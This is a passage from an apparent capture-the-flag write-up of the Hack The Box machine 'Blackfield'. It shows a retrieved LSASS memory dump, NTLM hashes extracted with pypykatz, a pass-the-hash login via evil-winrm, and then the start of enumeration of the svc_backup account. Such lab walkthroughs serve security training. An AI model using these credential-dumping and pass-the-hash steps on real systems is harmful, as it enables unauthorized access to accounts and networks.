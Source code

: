 The `memory_analysis` drive has a `lsass.zip` file. In Windows, the LSASS memory typically stores credentials for users on the machine. Some attacks on Windows environments include dumping LSASS and using a tool like `mimikatz` to extract passwords. Fortunately for us, it looks like we can just grab this file now. Additionally, since this isn't a new dump as far as we can tell, we don't necessarily know if these credentials will still be valid. Let's see what we can find.

```
> cd memory_analysis
> get lsass.zip
```

I'll use the tool [pypykatz](https://github.com/skelsec/pypykatz), which is like `mimikatz` but helps with locally extracting credentials. A great guide can be found [here](https://en.hackndo.com/remote-lsass-dump-passwords/#linux--windows) on Hackndo.

```
$ pypykatz lsa minidump lsass.DMP
[...]
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
```
We now have a few different accounts and their NTLM hashes. We can attempt a pass-the-hash attack with `evil-winrm`, which tries remote access utilizing port 5985. Enumerating through our options, we can successfully log in with the `svc_backup` account.

```
$ evil-winrm -H 9658d1d1dcd9250115e2205d9f48400d -u svc_backup -i 10.10.10.192
```

Let's grab the user flag.

![](images/user-flag.png)

## Root Flag

Now, on to root. Let's see what kind of access we have with the `svc_backup` user.

```
> net user svc_backup /domain
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
```
